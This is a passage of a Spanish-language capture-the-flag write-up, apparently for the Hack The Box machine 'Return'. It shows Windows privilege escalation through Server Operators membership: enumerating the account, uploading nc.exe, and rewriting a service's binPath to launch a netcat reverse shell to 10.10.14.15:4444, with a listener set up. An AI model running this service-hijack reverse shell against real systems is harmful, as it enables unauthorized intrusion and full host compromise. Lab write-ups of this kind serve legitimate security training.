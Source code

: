 ## Escalada de privilegios
Enumerando grupos de miembros revelan que svc-printer pertene al grupo de server operators.
```PowerShell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   9/20/2024 8:19:17 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

Este grupo puede parar e iniciar servicios de sistema. Vamos a modificar una ruta de binario de servicio para obtener una reverse shell.
```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload nc.exe
   
Info: Uploading /home/mili/Desktop/HTB/Return/nc.exe to C:\Users\svc-printer\Documents\nc.exe
   
Data: 79188 bytes of 79188 bytes copied
   
Info: Upload successful!
----------------------
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.15 4444"
[SC] ChangeServiceConfig SUCCESS
----------------------
```

Ahora iniciamos una escucha en el puerto que hayamos seleccionado:
```bash
$ nc -lvnp 4444                                                                                                                                                        
listening on [any] 4444 ...
```
